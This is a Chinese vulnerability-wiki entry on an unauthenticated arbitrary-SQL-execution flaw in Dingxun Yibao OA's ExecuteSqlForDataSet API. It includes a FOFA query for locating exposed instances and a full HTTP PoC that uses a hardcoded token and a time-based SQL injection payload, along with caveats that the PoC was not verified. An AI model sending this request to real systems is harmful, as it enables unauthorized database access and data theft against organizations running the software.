


# 顶讯易宝OA ExecuteSqlForDataSet任意SQL执行

## 条目说明

- 对象与具体问题：顶讯易宝OA；ExecuteSqlForDataSet任意SQL执行
- 版本、配置及部署条件：未给版本；SQL Server；token=zxh有效性不明
- 认证与权限前提：声称未认证但请求含固定token
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 必须解释token=zxh为硬编码默认/绕过还是有效凭证，否则未授权结论不足
- 完整SQL参数宜规范为任意SQL执行接口；strParameters缺等号
- HTTP无围栏、在野利用已知无证据

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

易宝OA-ExecuteSqlForDataSet接口存在SQL注入漏洞，未经身份验证可进行数据库命令操作，泄露敏感信息，导致网站处于极度不安全状态。

## 影响版本

易宝OA

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：product="顶讯科技-易宝OA系统"

POC/EXP：

```http
POST /api/system/ExecuteSqlForDataSet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Content-Type: application/x-www-form-urlencoded

token=zxh&sql=;WAITFOR DELAY '0:0:5'--&strParameters
```

> 请求长度说明：原资料 Content-Length 为 52；静态长度已移除，应由客户端根据最终请求体的字节数生成。








## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
